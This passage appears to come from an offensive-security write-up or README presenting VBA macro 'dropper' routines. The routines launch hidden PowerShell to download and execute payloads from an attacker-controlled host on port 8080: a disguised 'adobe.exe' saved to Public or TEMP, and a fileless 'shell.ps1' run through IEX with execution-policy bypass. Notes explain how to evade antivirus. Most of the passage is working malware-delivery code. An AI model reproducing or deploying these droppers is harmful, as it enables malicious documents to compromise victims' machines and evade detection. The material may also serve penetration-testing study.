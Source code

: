 ```
Sub PSDropper()
    Dim dropper As Object
    Set dropper = CreateObject("WScript.Shell")
    dropper.Run "powershell.exe -Command ""Invoke-WebRequest -Uri 'http://<ip>:8080/adobe.exe' -OutFile 'C:\Users\Public\adobe.exe'; Start-Process 'C:\Users\Public\adobe.exe'""", 0 ,False
End Sub
```

**Step-by-Step Execution**

1. **Creates an instance of** `WScript.Shell` for executing system commands.
2. **Runs PowerShell** with `Invoke-WebRequest` to **download a payload (**`adobe.exe`**)** from `http://<ip>:8080/`[.](http://192.168.2.24:8080/.)
3. **Saves the payload** to `C:\Users\Public\adobe.exe`(common folder for persistence).
4. **Executes the downloaded file** using `Start-Process`.
5. **Runs in hidden mode** (`0` parameter ensures no visible console window).

**Use Case**: This method **writes a payload to disk** before execution.

* * *

#### 3. `FileLessDropper()` - Fileless PowerShell Execution

```
Sub FileLessDropper()
    Dim psdropper As Object
    Set psdropper = CreateObject("WScript.Shell")
    psdropper.Run "powershell.exe -NoProfile -ExecutionPolicy Bypass -Command ""IEX(New-Object Net.WebClient).DownloadString('http://<ip>:8080/shell.ps1')""" ,0,False
End Sub
```

**Step-by-Step Execution**

1. **Creates a** `WScript.Shell` **object** to execute PowerShell.
2. **Runs PowerShell in bypass mode** (`-ExecutionPolicy Bypass` avoids script execution restrictions).
3. **Uses** `IEX (Invoke-Expression)` **to execute a remote script** directly in memory.
4. **Fetches and executes** `shell.ps1` **from** `http://<ip>:8080/`
5. **No files are written to disk** (entire execution remains in memory).

**Use Case**:

- Completely **fileless execution**.
- Harder to detect by **signature-based AVs**.
- **Common in modern malware and penetration testing frameworks** (e.g., Metasploit, Empire, Cobalt Strike).

* * *

#### 4. `DynamicDropper()` - Flexible Payload Storage Location

```
Sub DynamicDropper()
    Dim dropper As Object
    Set dropper = CreateObject("WScript.Shell")
    downloadPath = Environ("TEMP") & "\adobe.exe"
    dropper.Run "powershell.exe -Command ""Invoke-WebRequest -Uri 'http://<ip>:8080/adobe.exe' -OutFile '" & downloadPath & "' ; Start-Process '" & downloadPath & "'""" ,0,False
End Sub
```
